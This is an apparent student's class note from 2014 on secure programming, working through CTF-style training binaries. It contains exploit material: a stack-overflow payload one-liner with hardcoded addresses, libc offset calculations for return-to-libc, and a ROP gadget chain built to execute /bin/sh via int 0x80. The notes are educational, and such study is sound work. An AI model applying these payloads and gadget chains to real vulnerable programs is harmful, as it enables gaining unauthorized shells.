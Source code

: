 ====================
 Secure Programming
====================

:date: 2014-11-04 18:55
:tags: secprog, ctf, return-oriented-programming
:category: note
:slug: secure-programming-20141104
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/11/04 Secure Programming Class Note

foo_4
=====

Training for "return to text" attack.

- binsh: 0x0804a030
- system: 0x080483e0

- ``print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x20\x86\x04\x08'``


foo_5
=====

Training for "return to libc" attack.

Notice: libc.so is provided

- ``objdump -d libc.so``
    - 00019970 <__libc_start_main>:
    - 0003fc40 <__libc_system>:
        - offset: 262d0

Example:
Function: libc_start_main's address is :  0xf75f5970
Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

- ``objdump -R foo_5``
    - 0804a01c R_386_JUMP_SLOT   __libc_start_main
- 0804a02c <binsh>:
    - actual address: 08048620

foo_6
=====

Training for "return-oriented programming" attack.

- int 0x80
- eax: call what
- ebx, ecx: arguments
- remember the number of pops, smash the stack

Gadget 1
--------

- first gadget: 0x080594ac
- reset eax to 0 by XOR itself
- value for ``pop ebx``: 0x080be568 (/bin/sh)
- return address of first gadget: 0x0805cc5c

.. code-block:: nasm

    80594ac:       31 c0                   xor    eax,eax
    80594ae:       5b                      pop    ebx
    80594af:       c3                      ret

Gadget 2
--------

- second gadget: 0x0805cc5c
- garbage value for ``pop edi``: aaaa
- return address of second gadget: 0x0805cc5c
- repeat 11 times to make eax = 0x0000000b
- last return address of second gadget: 0x0806f0e0

.. code-block:: nasm

    805cc5c:       40                      inc    eax
    805cc5d:       5f                      pop    edi
    805cc5e:       c3                      ret

Gadget 3
--------

third gadget: 0x0806f0e0

.. code-block:: nasm

    806f0e0:       cd 80                   int    0x80
    806f0e2:       c3                      ret

Failed Gadget
-------------

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

.. code-block:: nasm

    80db8cd:       40                      inc    eax
    80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
    80db8d4:       c3                      ret

Cannot use ``pop eax`` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

.. code-block:: nasm

    80e205d:  58                      pop    eax
    80e205e:  c3                      ret

